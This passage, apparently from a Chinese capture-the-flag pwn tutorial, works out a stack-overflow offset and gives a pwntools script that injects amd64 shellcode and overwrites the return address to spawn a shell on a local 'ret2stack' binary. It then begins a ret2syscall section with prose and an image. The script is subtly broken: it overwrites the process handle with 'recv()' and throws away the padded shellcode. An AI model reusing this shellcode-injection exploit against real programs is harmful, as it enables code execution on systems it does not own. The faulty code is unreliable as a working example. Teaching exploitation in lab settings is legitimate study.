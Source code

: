需要覆盖的垃圾字长

```plain
0xd0-0x60=112
```

但是要覆盖previous ebp还是要按照64的数据结构，所以要再加8字节

```plain
from pwn import *
context.arch = "amd64"
io= process("./ret2stack")
io = recv()
shellcode = asm(shellcraft.amd64.sh())
shellcode.ljust(120,b'a')
buf = 0x7fffffffe0e0
payload = shellcode + p64(buf)
io.sendline(payload)
io.interactive()
```

## ret2syscall

这个于前几个的区别在于

```plain
无法找到一步到位调用shell的地址，需要找到多个地址从而获取shell
```

返回系统调用

[![](assets/1701612384-6af491a612f1d744e7c7cf98f45c434a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203138-e4d3cbca-1678-1.png)
